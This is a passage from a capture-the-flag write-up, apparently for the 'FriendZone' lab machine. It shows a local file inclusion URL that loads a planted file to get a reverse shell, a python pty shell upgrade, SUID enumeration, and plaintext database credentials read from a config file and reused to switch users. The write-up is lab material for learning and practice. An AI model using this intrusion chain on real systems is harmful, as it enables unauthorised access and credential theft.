 
It should be a simple case now of including the file, and catching the reverse shell.

After a few tries of failing to locate the Development folder, I find it in `/etc/` and the exploit works.

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/evil
```

The server adds `.php` to the included file, so we just need to omit that from the url request.


<h3>Privilege Escalation</h3>

To get a better shell I use the python command

`python -c 'import pty;pty.spawn("/bin/bash")'`

I start enumeration with the `sudo su` and `sudo -l` commands, but require a password.

Looking for suid files with `find / -perm -u=s -type f 2>/dev/null` doesn't reveal any unusual binaries that catch my eye.

I next check out the webserver folder in `/var/www/`

![varwww](/assets/img/friendzone/friendzone-varwww.png)

`mysql_data.conf` instantly draws my attention, and its contents are very helpful.

```

for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ

```

`ls /home` confirms that user `friend` has a home directory.
Switching to user friend is simple.

![friend](/assets/img/friendzone/friendzone-friend.png)

Now we can grab the user flag from `friend`'s home directory.
